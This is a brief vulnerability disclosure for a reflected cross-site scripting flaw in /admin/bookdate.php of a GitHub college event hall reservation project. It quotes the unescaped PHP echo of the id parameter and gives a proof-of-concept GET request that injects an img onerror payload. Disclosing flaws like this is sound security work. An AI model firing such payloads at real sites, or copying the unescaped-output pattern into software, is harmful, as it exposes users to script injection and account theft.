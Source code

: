 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS bookdate.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/bookdate.php

## Code
```php
<h1 class="logo "><a href="../home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/bookdate.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/92ef158b-b204-4be2-9446-fece437b2a13)


